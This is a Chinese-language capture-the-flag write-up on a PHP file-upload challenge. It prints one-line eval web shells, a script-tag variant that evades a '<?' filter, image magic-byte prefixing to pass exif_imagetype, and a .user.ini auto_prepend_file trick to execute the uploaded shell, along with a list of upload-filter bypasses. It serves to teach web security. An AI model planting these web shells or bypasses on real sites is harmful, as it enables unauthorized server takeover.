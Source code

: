 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```


##  思路

1. 打开网页是比较明显的文件上传的题目。一般文件上传的题目，首先就制作一句话木马上传，然后查看是否返回提示信息。

2. 最普通的一句话木马,保存为php文件，然后上传，显示如下，说明后端不允许上传php文件，然后尝试其他后缀名，php3,php4,php5,phtml,phar均不可行。

   `<?php @eval($_POST('pass'))?>`

   <img src="../images/image-20201223145657037.png" alt="image-20201223145657037" style="zoom:33%;" />

3. 因此尝试将后缀改为.jpg后再上传，结果如下，检测出<?，说明后端对上传文件有所检查，如果有<?则不允许上传。

   <img src="../images/image-20201223145956261.png" alt="image-20201223145956261" style="zoom:33%;" />

   因此可考虑换其他木马。

   `<script language="php">eval($_POST['a']);</script>`

   <img src="../images/image-20201223150237140.png" alt="image-20201223150237140" style="zoom:33%;" />

4. 此时又显示exif_imagetype:not image!

   exif_imagetype是一个判断图像类型的函数，会读取图像的第一个字节并检查其签名

   常见图片的开头几个字节如下：

   > - JPG ：FF D8 FF E0 00 10 4A 46 49 46
   > - GIF(相当于文本的GIF89a)：47 49 46 38 39 61
   > - PNG： 89 50 4E 47

   因此，在上传的木马最前面加上以上字节即可。

   <img src="../images/image-20201223151136107.png" alt="image-20201223151136107" style="zoom:33%;" />

5. 到此步，已经可以成功上传带有木马的jpg文件，但jpg文件并不能直接执行，因此要想办法能让a.jpg以某种方式执行，然后我们就可以用御剑进行连接。一般服务器将jpg文件当成php文件执行有两种方法:

   - 上传.htaccess文件  该方法可以将jpg等类型的文件设置为php执行。
   - 上传.user.ini文件  该方法前提是上传目录中已存在php文件，可以设置该php文件执行时必须包含我们上传的木马内容。

6. 上传**.user.ini**文件

   ```
   GIF
   auto_prepend_file=a.jpg
   ```

   该文件的含义是当访问同文件下的任何一个文件时，都会包含a.jpg文件。

   <img src="../images/image-20201223152036109.png" alt="image-20201223152036109" style="zoom:50%;" />

   根据显示的结果，可以看到该目录下同样还有index.php，因此此时在访问index.php文件时，默认会在index.php文件的前面加上a.jpg的内容，即可利用御剑进行连接。

   ```html
   URL地址：http://1d52bb40-2953-4635-a1e0-43a09c024d11.node3.buuoj.cn
   /uploads/e2e7ec165ba05a5e1f3198caa7e22b54/index.php
   密码：pass
   ```



## 总结

- 一般上传一个文件到后台时，后台都会采用一些防御方式，常见的防御方式都有绕过方式。一般防御方式如下：
  - 前端限制（前端直接使用js脚本检测文件类型）
    - 直接禁用js运行
    - 使用burpsuite抓包修改文件后缀
  - 服务端文件扩展名检测
    - 黑名单
      - 文件名大小写绕过
      - 特殊文件名绕过
      - 0x00截断绕过
      - .htaccess文件攻击
    - 白名单
      - 解析漏洞绕过
      - 配合文件包含漏洞
  - 服务端目录路径检测
  - 服务端MIME类型检测
    - 设置文件的Content-Type为允许上传的类型
  - 服务端文件内容检测（检查文件头/文件内容是否包含特殊字符）
    - 伪装成允许的类型（添加文件头等）
- 本题的防御方式有：
  - 文件后缀名黑名单（.php、.php3、.php5等都不可上传）
  - 文件内容检测（包含<?的文件均不可上传）
  - MIME类型检测（检查Content-type）
  - 文件头检测（文件头是否为图片头）
- 对于文件上传的题目，应该多尝试上传几种文件。
  - 最常见的一句话木马
  - 文件后缀(.jpg  .png  .gif)
  - 图片的文件头标志
- 成功上传图片马--》使用.user.ini配置文件间接执行图片马

注：类似题

 **[ACTF2020 新生赛]Upload** 

该题使用了前端检测文件名后缀，服务端检测文件后缀（分别可以使用burpsuite修改文件名和使用phtml文件绕过）

